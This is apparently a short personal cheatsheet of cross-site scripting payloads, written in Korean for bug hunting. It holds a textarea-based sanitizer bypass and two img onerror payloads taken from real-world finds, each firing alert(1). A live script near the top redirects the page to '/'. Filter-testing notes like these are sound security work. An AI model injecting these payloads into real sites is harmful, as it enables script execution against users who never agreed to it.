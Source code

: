 ```yaml
---
title: XSS Cheatsheet
description: 내가 보려고 만듦
author: goldleo1
date: 2025-02-23 12:00:00 +0800
categories: [cheatsheet]
tags: [web,cheatsheet,xss]
pin: false
---
```


<script>
location.href="/";
// 이것도 견디지 못하는 자는 돌아가라
</script>

```yaml
# XSS Cheatsheet
LastUpdate: 2025/2/23
Count: 3
```


## Normal

```

```

## Sanitizer Bypass

```
<textarea><input id='</textarea><img src=x onerror=alert(1)>'>
<!-- textarea가 safe로 적용될 때 -->
```


## Real World(From Bug Hunting)

```
{<img src=x onerror=alert(1)>}
<<img>img src=x onerror=alert(1)>
```
